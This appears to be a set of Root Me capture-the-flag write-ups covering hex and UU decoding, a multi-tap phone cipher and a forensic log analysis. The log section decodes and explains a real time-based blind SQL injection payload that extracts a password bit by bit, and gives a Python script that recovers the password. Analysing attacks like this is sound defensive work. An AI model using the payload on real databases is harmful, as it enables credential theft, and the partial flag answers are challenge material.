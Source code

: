 # Root Me
## Encodage - ASCII:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-ASCII

We're provided an associated resource to complete the challenge: ![image](https://user-images.githubusercontent.com/60375020/144296644-fdb7ac8c-6eea-481b-b202-cea9ce7c03f2.png)

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch8/ch8.txt and are provided the following string: 4C6520666C6167206465206365206368616C6C656E6765206573743A203261633337363438316165353436636436383964356239313237356433323465.

Now we  just have to use the table provided to decode the string.

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to finish the rest.... 😉
  Can't go giving the true flag, now can I?
 
Le flag de ce challenge est: [Really long string]
</details>

## Encodage - UU:
https://www.root-me.org/fr/Challenges/Cryptanalyse/Encodage-UU

We're provided a PDF titled 'EN - Encodings format.pdf': https://repository.root-me.org/Cryptographie/EN%20-%20Encodings%20format.pdf?_gl=1*bhowco*_ga*Mzg3ODQ3ODc2LjE2MzgyNDAxMDg.*_ga_SRYSKX09J7*MTYzODM3ODQyOC45LjEuMTYzODM4NDM4Ny4w. 

Beginning the challenge, we're redirected to http://challenge01.root-me.org/cryptanalyse/ch1/ch1.txt. On this website, it gives us the following:
```
_=_ 
_=_ Part 001 of 001 of file root-me_challenge_uudeview
_=_ 

begin 644 root-me_challenge_uudeview
B5F5R>2!S:6UP;&4@.RD*4$%34R`](%5,5%)!4TE-4$Q%"@``
`
end
```
This is where the PDF resource really comes in handy. Flipping through, we can see it really breaks down UU Encoding and provides useful tables.
<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 5 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
  
```
Very simple ;)
PASS = [This should be the password] 
```

</details>

## Analyse de logs - attaque web:
https://www.root-me.org/fr/Challenges/Forensic/Analyse-de-logs-attaque-web
We're given the following hint: 'Énoncé - Notre site web semble avoir été attaqué, mais notre administrateur système ne comprend pas les logs du serveur web. Pouvez-vous retrouver les données qui ont été exfiltrées?'
<details>
  <summary> 🇬🇧 Translation 🇬🇧 </summary> 
'Statement - Our website appears to have been attacked, but our system administrator does not understand the web server logs. Can you find the data that was exfiltrated?'
</details>

Beginning the challenge (http://challenge01.root-me.org/forensic/ch13/ch13.txt), we're able to see an access log. Looking at the first request we can see that it's using base64:
```
192.168.1.23 - - [18/Jun/2015:12:12:54 +0200] "GET /admin/?action=membres&order=QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D HTTP/1.1" 200 1005 "-" "-"
```
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk%3D
```
URL decoded:
```
QVNDLChzZWxlY3QgKGNhc2UgZmllbGQoY29uY2F0KHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwxLDEpLHN1YnN0cmluZyhiaW4oYXNjaWkoc3Vic3RyaW5nKHBhc3N3b3JkLDEsMSkpKSwyLDEpKSxjb25jYXQoY2hhcig0OCksY2hhcig0OCkpLGNvbmNhdChjaGFyKDQ4KSxjaGFyKDQ5KSksY29uY2F0KGNoYXIoNDkpLGNoYXIoNDgpKSxjb25jYXQoY2hhcig0OSksY2hhcig0OSkpKXdoZW4gMSB0aGVuIFRSVUUgd2hlbiAyIHRoZW4gc2xlZXAoMikgd2hlbiAzIHRoZW4gc2xlZXAoNCkgd2hlbiA0IHRoZW4gc2xlZXAoNikgZW5kKSBmcm9tIG1lbWJyZXMgd2hlcmUgaWQ9MSk=
```
base64 decoded:
```
ASC,(SELECT (CASE FIELD(concat(SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),1,1),SUBSTRING(bin(ascii(SUBSTRING(password,1,1))),2,1)),concat(CHAR(48),CHAR(48)),concat(CHAR(48),CHAR(49)),concat(CHAR(49),CHAR(48)),concat(CHAR(49),CHAR(49)))WHEN 1 THEN TRUE WHEN 2 THEN sleep(2) WHEN 3 THEN sleep(4) WHEN 4 THEN sleep(6) END) FROM membres WHERE id=1)
```
This looks interesting; the commas indicate a blind SQL attack. Expanding this, we can see it clearly:
```SQL
SELECT (
        CASE FIELD (
                concat(
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 1, 1
                        ),
                        SUBSTRING(
                                bin(ascii(SUBSTRING(password,1,1))), 2, 1
                        )
                ),
                concat(CHAR(48),CHAR(48)), 00
                concat(CHAR(48),CHAR(49)), 01
                concat(CHAR(49),CHAR(48)), 10
                concat(CHAR(49),CHAR(49))  11
        )
        WHEN 1 THEN TRUE
        WHEN 2 THEN sleep(2)
        WHEN 3 THEN sleep(4)
        WHEN 4 THEN sleep(6)
        END
) FROM membres WHERE id=1
```
From this we can see that the attacker checks what's in the password field, bit by bit. It takes the first character from the password, converts it to a bin representation, takes the first two bits and then compares to '00', '01', '10' and '11' strings. If it's '00', then nothing happens. If it's '01', the query waits 2 seconds, if it's '10', the query waits 4 seconds and if it's '11', the query waits 6 seconds.

There's a 4th query which checks only one bit, so it's not as long. After 7 bits are rounded up, it becomes ASCII code.
```SQL
[18/Jun/2015:12:13:06 ASC,(
        SELECT (
                CASE FIELD (
                        concat(
                                SUBSTRING(
                                        bin(ascii(SUBSTRING(password,1,1))),7,1
                                )
                        ),
                        CHAR(48), 0
                        CHAR(49)  1
                )
                WHEN 1 THEN sleep(2)
                WHEN 2 THEN sleep(4)
        END) FROM membres WHERE id=1)

```
The following code, written in Python, is what I used to find the flag.
```python
"""
Aliyah Alexis Millán
29 November 2021
Root Me
Logs analysis - Web attack
"""

"""
Provided access log: http://challenge01.root-me.org/forensic/ch13/ch13.txt
This is the log of a blind sql injection attack, the attacker executes multiple queries separated by commas. 
"""
from datetime import datetime

f = open('D:\School Fall 2021\Cyber\RootMe\ch13.txt', 'r')

def get_date(line):
        dateField = line[3]
        date = dateField[1:len(dateField)]
        return datetime.strptime(date, '%d/%b/%Y:%H:%M:%S')
prev_date = False
counter = 0
result = ''
letters = []
 
for line in f:
    if len(line):
        data = line.split(' ')
 
        if prev_date is not False:
            delta = (get_date(data) - prev_date).seconds
            counter += 1
 
            # Check the last bit every 4th request 
            if counter % 4:
                if delta == 0:
                    result += '00'
                elif delta == 2:
                    result += '01'
                elif delta == 4:
                    result += '10'
                elif delta == 6:
                    result += '11'
            else:
                if delta == 2:
                    result += '0'
                elif delta == 4:
                    result += '1'
                else:
                    # If there's no last bit found
                    pass
                letters.append(result)
                result = ''
        prev_date = get_date(data)
f.close()
pwd = ''
for letter in letters:
    pwd += chr(int(letter, 2))
print(pwd)
#Flag is printed.
```
## Steganomobile: 
https://www.root-me.org/en/Challenges/Steganography/Steganomobile

Before beginning the challenge, we're given a hint: 'After extraction of mobile data, the searcher, investigator have get this sequence of numbers. Maybe a phone number?'

Starting the challenge, we're redirected to (http://challenge01.root-me.org/steganographie/ch6/ch6.txt). 

From there, we can see we're given a string of numbers: 222-33-555-555-7-44-666-66-33.

The lets us know that we're looking at phone-related information and should be looking into mobile-type ciphers.
The first cipher that immediately pops into mind is the Multi-tap Phone (SMS). 
We can easily look for a Multi-tap decoder online. The first one I'm able to find is https://www.dcode.fr/multitap-abc-cipher.

All I have to do is copy and paste the string of characters into the 'MULTI-TAP MOBILE PHONE CIPHERTEXT' section, and it gives you the password on the left side of the website, under 'Results'.

![image](https://user-images.githubusercontent.com/60375020/144178572-d1b3371a-7159-432b-83d9-db4350cd0ba8.png)

<details>
  <summary> 📣 FLAG SPOILER WARNING 📣 </summary> 
  
  This is the solution to the challenge, valued at 10 points. You might have to tweak the final result just a little.... 😉
  Can't go giving the true flag, now can I?
 
![image](https://user-images.githubusercontent.com/60375020/144179099-6c5c4c75-d8d3-4340-848d-826cdae62c01.png)
</details>
